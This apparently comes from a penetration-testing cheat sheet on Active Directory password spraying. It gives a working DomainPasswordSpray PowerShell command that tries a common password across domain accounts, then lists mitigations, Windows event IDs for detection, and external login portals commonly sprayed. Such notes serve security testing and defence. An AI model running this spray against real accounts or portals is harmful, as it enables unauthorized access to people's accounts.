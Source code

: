 
#### [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) - Active Directory Password Spraying
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

---

### Mitigations:
- **Enable Multi-Factor Authentication (MFA)**: Protects against unauthorized access.
- **Enforce Least Privilege & Network Segmentation**: Restrict access to necessary resources.
- **Use Strong Password Policies & Filters**: Prevent weak password usage.
- **Separate Admin & User Accounts**: Reduce risk of privilege escalation.

---

### Detection:
Monitor logs for suspicious activity:
- **Event ID 4625**: Failed Logon Attempts
- **Event ID 4771**: Kerberos Pre-Authentication Failures

---

### External Password Spraying Targets:
- **Microsoft 365, Outlook Web Exchange**
- **RDS Portals, Citrix, VMware Horizon**
- **VPN Portals (Fortinet, SonicWall, OpenVPN)**
- **Custom Web Apps using AD Authentication**
